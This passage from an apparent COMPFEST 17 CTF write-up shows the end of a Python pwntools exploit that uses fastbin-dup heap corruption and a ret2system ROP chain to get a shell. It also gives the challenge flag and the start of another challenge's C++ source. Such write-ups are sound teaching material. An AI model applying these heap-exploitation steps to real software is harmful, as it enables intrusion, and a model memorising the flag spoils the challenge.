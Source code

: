 ```python
        free(9)
        free(8)
        for i in range(7):
            alloc(1 + i, 0x38, b"A")
        alloc(8, 0x38, p64(mangle(heap, ret - 8)))
        alloc(9, 0x38, b"A")
        alloc(9, 0x38, b"A")
        alloc(9, 0x38, p64(0) + ret2system())
        menu(4)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{fastbin_dup_heap_corruption_format_string_stack_leak_unsigned_addition_unsigned_division_rop_execve_semua_ada_all_in_bosku_daa851917d}`

# Pwn - Office Simulator

## Introduction 

![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/OfficeSimulator.png)

## Source Code

```c
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <vector>

#define MAX_WORKERS 8

class Worker {
public:
    Worker() {}
    virtual void work(void) const {
        std::cout << "Ughh... I hate this job" << std::endl;
    }
    ~Worker() = default;
```